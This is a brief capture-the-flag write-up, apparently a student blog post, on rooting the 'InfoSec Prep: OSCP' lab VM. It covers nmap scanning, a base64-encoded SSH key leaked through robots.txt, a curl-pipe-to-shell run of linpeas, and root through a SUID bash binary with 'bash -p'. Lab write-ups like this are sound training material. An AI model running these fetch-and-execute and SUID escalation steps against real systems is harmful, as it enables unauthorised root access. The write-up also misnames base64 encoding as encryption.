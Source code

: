 ```yaml
---
layout: post
title: writeup
tags: cyber-security
category: school
date: 02-10-2022
---
```


# InfoSec Prep: OSCP
![](1.png)
## first of all we need to innumerate the machine
here we r going to use the nmap scan
![](nmap_first.png)
we we found that there is an open port with ssh
## now we r going to see some basic things
lets take a look at /robots.txt
boom we found that there is a hidden file called secret
![](2.png)
![](3.png)
its obvious that its a base 64 encryption
so we r going to encrypt it
![](4.png)
it contains an ssh private key
now we have the ssh private key so we need its user to connect with the machine using ssh
on the main page of the website we find that someone mentioned the user "oscp"
![](5.png)
## now we will try to connect the machine
![](6.png)
![](dkhlna.png)
ouah! we'r in
we are not root so we have to try to be root
I'm going to run my favorite script written by my dear friend MZA7A to find all vulnerabilities
and sus files
```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```

I have tried to exploit those vulnerabilities but i didn't get anything so
let's take a look at the sus files 
![](susfile.png)
we see that file in /usr/bin/ called "bash" with its yellow color and we see that bash has some interesting permissions set
the file is called bash so lets open the bash man and try to understand well
![](-p.png)
this "-p" could help us
### SUID
Set owner User ID
it runs with the suid bit set and may be exploited to access the file system or maintain access with elevated privileges working as a suid  backdoor if it's used to run ```sh -p``` omit the ```-p``` arguments on systems like Debian that allows the default ```sh``` to run with SUID privileges
## lets run this command ```/usr/bin/bash -p```
![](done.png)
we are root now and we got the flag
